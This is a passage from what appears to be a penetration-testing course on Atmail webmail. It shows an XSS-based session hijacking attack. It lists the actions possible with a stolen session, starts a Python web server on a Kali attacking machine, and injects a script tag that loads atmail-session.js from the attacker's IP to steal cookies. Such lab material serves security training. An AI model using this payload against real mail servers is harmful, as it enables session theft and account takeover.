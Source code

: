 Figure 3: Accessing administrative cookies
Figure 3: Accessing administrative cookies
Exercise
Attempt to replay the attack and display the cookie values using a JavaScript alert box.

1
(atmail, 2020), https://www.atmail.com/on-premises-email/ ↩︎

2
(HTML Purifier, 2017), http://htmlpurifier.org/live/smoketests/xssAttacks.xml ↩︎

3
(Dr.-Ing. Mario Heiderich), http://heideri.ch/jso/#46 ↩︎

16.2. Session Hijacking
Depending on any session protection mechanisms that may be present in the Atmail server, we now may have the ability to steal cookies and session information. This would allow us to impersonate our victim and access their webmail from a different location while bypassing any authentication. This is known as a session hijacking attack1 and is a well known vector while attacking web applications. To implement this attack vector, we can choose either:

the Date field and inject malicious JavaScript code or an HTML IFRAME
the Body field, which only allows for the use of an HTML IFRAME
Recall that these two choices are based on the results of our fuzzing efforts from the previous section.

If we are successful, and we can gain control of a targeted session, we should be able to perform arbitrary actions, all in the role of the legitimate owner of that account. Some of the things we could do are:

Read emails
Send arbitrary emails
Delete any emails
Enable email forwarding (to an email address under our control)
Access all the contacts (used for spamming)
Enable auto-reply
Exploit any authenticated server-side application security flaws
But let's not get ahead of ourselves. At this point we need to see if we can actually retrieve cookies from a remote location and hopefully stay undetected.

In order to make our attack as discrete as possible, the payload we will use in this section will call a JavaScript file named atmail-session.js that is hosted on our attacking system. Once again, please adjust the IP address as needed.

Before we execute the following attack we first need to start a simple web server instance on our attacking machine. We can do that by using the Python module called SimpleHTTPServer.

kali@kali:~/atmail$ python -m SimpleHTTPServer 9090
Serving HTTP on 0.0.0.0 port 9090 ...
Listing 8 - Setting up a simple webserver

The web root for this HTTP Server will be in the current working directory (CWD) where this command was executed. In Listing 8, the web root would be in the atmail directory. We select our payload by using the atmail-sendmail.py Python script:

kali@kali:~$ ./atmail_sendemail.py atmail '<script src="http://192.168.119.120:9090/atmail-session.js"></script>'
Listing 9 - Injecting a JavaScript script reference that will execute in the context of the logged in user

